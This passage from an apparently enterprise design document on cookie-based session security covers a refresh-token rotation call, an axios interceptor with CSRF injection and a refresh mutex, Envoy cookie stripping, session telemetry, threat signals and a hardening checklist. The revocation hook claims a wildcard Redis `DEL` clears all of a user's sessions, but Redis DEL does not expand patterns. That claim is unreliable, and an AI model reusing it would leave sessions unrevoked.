        presented_hash = cls.hash_token(presented_token)
        new_hash = cls.hash_token(new_token)
        now_ts = str(int(time.time()))
        ttl = 7 * 86400

        result = await redis_client.eval(
            ATOMIC_ROTATION_LUA,
            1,
            family_key,
            presented_hash,
            new_hash,
            ttl,
            now_ts
        )
        return int(result)
```

---

### 9.3 Frontend HTTP Engine: React / TypeScript Concurrent Mutex Interceptor

When multiple asynchronous requests trigger simultaneously upon access token expiration, a naïve implementation dispatches multiple refresh calls, causing race conditions and false-positive reuse detection alerts. The enterprise client implements a **Concurrent Mutex Queue**:

```typescript
// frontend/src/api/httpClient.ts
import axios, { AxiosError, InternalAxiosRequestConfig, AxiosResponse } from 'axios';

// Instantiate enterprise Axios client
export const httpClient = axios.create({
  baseURL: import.meta.env.VITE_API_GATEWAY_URL || '/api/v1',
  withCredentials: true, // MANDATORY: Enables transport of HttpOnly cookies
  timeout: 10000,
  headers: {
    'Accept': 'application/json',
    'Content-Type': 'application/json',
  },
});

// Helper: Extract double-submit CSRF token from browser cookie storage
function extractCsrfToken(): string | null {
  const match = document.cookie.match(/(?:^|;\s*)XSRF-TOKEN=([^;]*)/);
  return match ? decodeURIComponent(match[1]) : null;
}

// 1. Request Interceptor: Injects CSRF token on all mutative operations
httpClient.interceptors.request.use((config: InternalAxiosRequestConfig) => {
  const method = config.method ? config.method.toUpperCase() : 'GET';
  if (!['GET', 'HEAD', 'OPTIONS', 'TRACE'].includes(method)) {
    const csrfToken = extractCsrfToken();
    if (csrfToken) {
      config.headers.set('X-CSRF-Token', csrfToken);
    }
  }
  return config;
});

// 2. Response Interceptor: Mutex lock and promise queue for silent refresh
let isRefreshing = false;
let failedQueue: Array<{
  resolve: (value?: unknown) => void;
  reject: (reason?: unknown) => void;
}> = [];

const processQueue = (error: Error | null = null) => {
  failedQueue.forEach((promise) => {
    if (error) {
      promise.reject(error);
    } else {
      promise.resolve();
    }
  });
  failedQueue = [];
};

httpClient.interceptors.response.use(
  (response: AxiosResponse) => response,
  async (error: AxiosError) => {
    const originalRequest = error.config as InternalAxiosRequestConfig & { _retry?: boolean };

    if (!error.response || error.response.status !== 401 || originalRequest._retry) {
      return Promise.reject(error);
    }

    // Do not attempt refresh on authorization or rotation routes
    if (originalRequest.url?.includes('/auth/login') || originalRequest.url?.includes('/auth/refresh')) {
      return Promise.reject(error);
    }

    if (isRefreshing) {
      // Mutex lock active: Enqueue concurrent request until rotation resolves
      return new Promise((resolve, reject) => {
        failedQueue.push({ resolve, reject });
      })
        .then(() => httpClient(originalRequest))
        .catch((err) => Promise.reject(err));
    }

    originalRequest._retry = true;
    isRefreshing = true;

    try {
      // Dispatches request to refresh endpoint. 
      // Browser automatically attaches __Host-refresh_token due to Path scoping
      await httpClient.post('/auth/refresh');

      processQueue(null);
      return httpClient(originalRequest);
    } catch (refreshError) {
      processQueue(refreshError as Error);
      // Hard redirect to identity gate on terminal session invalidation
      window.dispatchEvent(new CustomEvent('auth:session_expired'));
      return Promise.reject(refreshError);
    } finally {
      isRefreshing = false;
    }
  }
);
```

---

## 10. Edge Proxy Enforcement & Network Topology (Cloudflare / Envoy / AWS)

Tier-1 infrastructure positions cookie parsing and policy enforcement at the Edge:

```
[ Browser Client ]
       |
       v
+-------------------------------------------------------------------+
| CDN / Edge Proxy (Cloudflare Worker / Envoy Gateway)              |
|                                                                   |
| 1. TLS 1.3 Termination & HSTS Verification                        |
| 2. Static Asset Filter: Strips `Cookie` header on static assets   |
|    (/static/*, *.js, *.css, *.webp) to protect CDN cache keys.    |
| 3. Rate Limiter: Max 5 req/min on /api/v1/auth/refresh per IP.    |
| 4. Bot Management & JA4 TLS Fingerprinting                        |
+-------------------------------------------------------------------+
       | (Cleaned, authenticated request)
       v
[ Internal Kubernetes Ingress (mTLS) ] -> [ FastAPI Microservice ]
```

### Static Asset Cookie Stripping (Envoy Filter Example)
Transmitting session cookies on static asset requests wastes network bandwidth and risks proxy cache-poisoning attacks. Edge gateways strip inbound cookies on non-dynamic paths:

```yaml
# Envoy Route Configuration Excerpt
routes:
  - match:
      prefix: "/assets/"
    route:
      cluster: s3_asset_storage
    request_headers_to_remove:
      - "cookie"
      - "x-csrf-token"
```

---

## 11. Security Operations (SecOps), Auditing & Anomaly Telemetry

Enterprise identity platforms maintain comprehensive telemetry for compliance auditing and incident response:

### Session Data Model in Memory Store
```json
{
  "user_id": "usr_99a8b1c4",
  "family_id": "fam_77x21a00",
  "session_id": "ses_44d0e911",
  "client_metadata": {
    "ip_address": "198.51.100.42",
    "ja4_fingerprint": "t13d1516h2_8daaf6152771_b51557008d66",
    "user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)...",
    "geo": {
      "country": "IT",
      "city": "Rome",
      "asn": 3269
    }
  },
  "created_at": 1729000000,
  "last_active": 1729000900
}
```

### Automated Threat Signals
1. **Impossible Velocity Trigger:** A single session identifier presented from coordinates indicating speed-over-ground $> 900 \text{ km/h}$ triggers an immediate freeze and steps up to MFA.
2. **JA4 TLS Mismatch:** If an active session presents an identical cookie from a drastically mutated TLS client hello fingerprint, the session is flagged for token exfiltration.
3. **Global Revocation Hook:** The user or Security Operations Center (SOC) can invoke `DELETE /sessions/user/{user_id}`, triggering an atomic Redis pipeline `DEL auth:family:{user_id}:*` that invalidates all active sessions globally within $< 5\text{ms}$.

---

## 12. Production Verification Audit & Hardening Checklist

Prior to production sign-off, verify each security invariant:

### Protocol & Transport Hardening
- [ ] **Strict HTTPS Enforcement:** Server responds with `Strict-Transport-Security: max-age=63072000; includeSubDomains; preload`.
- [ ] **Cookie Host-Locking:** Sensitive authentication cookies use the `__Host-` prefix in production environments.
- [ ] **No Client-Accessible Secrets:** Confirmed zero references to access/refresh tokens in `localStorage`, `sessionStorage`, or `window` scope.
- [ ] **Path Guard Enforcement:** The `__Host-refresh_token` cookie specifies `Path=/api/v1/auth/refresh`.

### State Management & Anti-CSRF
- [ ] **Double-Submit HMAC-SHA256:** Mutative endpoints (`POST`, `PUT`, `PATCH`, `DELETE`) reject requests lacking matching and cryptographically valid `X-CSRF-Token` headers.
- [ ] **Automatic Reuse Detection:** Verified that intentionally replaying an old refresh token terminates the entire token family in Redis.
- [ ] **Concurrent Mutex Queue:** Frontend intercepts 401s and queues parallel requests during refresh operations without dispatching redundant rotation calls.

### Privacy & Regulatory Governance
- [ ] **Zero-Execution Default:** No third-party analytical or marketing scripts execute prior to explicit user consent.
- [ ] **Google Consent Mode v2 Integration:** Default state set to `denied` for all storage tags prior to user interaction.
- [ ] **Data Minimization:** Cookie payloads contain opaque cryptographic keys; zero PII or unencrypted authorization roles are stored in cookie bodies.

---

## References & Regulatory Standards

- **IETF RFC 6265bis:** *Cookies: HTTP State Management Mechanism* (Draft Standard)
- **OWASP Application Security Verification Standard (ASVS 4.0):** *Section V3 (Session Management Architecture)*
- **NIST Special Publication 800-63B:** *Digital Identity Guidelines: Authentication and Lifecycle Management*
- **European Data Protection Board (EDPB):** *Guidelines 05/2020 on consent under Regulation 2016/679*
- **IETF RFC 7636:** *Proof Key for Code Exchange by OAuth Public Clients (PKCE)*
